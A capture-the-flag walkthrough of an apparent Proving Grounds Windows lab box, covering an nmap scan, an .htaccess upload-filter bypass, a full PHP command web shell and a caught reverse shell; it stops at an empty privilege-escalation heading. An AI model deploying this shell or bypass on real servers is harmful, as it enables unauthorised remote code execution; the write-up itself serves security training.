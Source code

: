 ## First eunumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Mon Feb 26 10:52:11 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -Pn 192.168.163.187
Nmap scan report for 192.168.163.187
Host is up (0.15s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-26 09:52:56Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-26T09:53:10
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 36s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 26 10:53:17 2024 -- 1 IP address (1 host up) scanned in 65.29 seconds
```


## Enumerating port 80 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/82904320-6246-447e-8f83-13db9f8822ca)

there's a web server running on port port `80`. checking the ip on a browser, we got a webpage 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/483f2902-3973-49ff-9eb4-2b745167abfd)

fuzzing the web application, we got diff dirs.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/37803a93-f0eb-4210-b80f-f485d848e830)

There's an upload function in the `buy-ticket` let's try upload a malicious file. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bd416e86-70c2-43b2-b7f5-f301e9d235a6)

trying to upload a php shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/400c15ea-ba97-4613-babb-8fda69f695fc)

we got error file type not supported. let's try bypassing it

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/beaa8b57-e876-4687-9443-3a7a5016296b)

after some research, found out we could overwrite the `.htaccess` and make a php shell uploadable. 

```
echo "AddType application/x-httpd-php .php16" > .htaccess
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bcfe0764-5268-457b-831f-0fbbd8dc3e04)

upload a file with `<?php phpinfo(); ?>` as `.php16`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/30363611-a51a-41b6-a045-2c483508860b)

upload a new file `.php16`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b6de0240-b442-4a6e-adf5-7407c847159f)

successfully upload the shell. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/3cb21461-a2d7-44f0-af8b-79be8364cbe5)

triggered a phpinfo. let's spawn a reverse shell. 

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f84ad047-7fa4-4f4d-b205-9993454a587f)

uploaded a php cmd shell and we can run RCE. 

```powershell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Access]
└─$ rlwrap ncat -lnvp 443
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.163.187:50445.

PS C:\xampp\htdocs\uploads> whoami 
access\svc_apache
PS C:\xampp\htdocs\uploads> 
```


## Privilege Escalation 




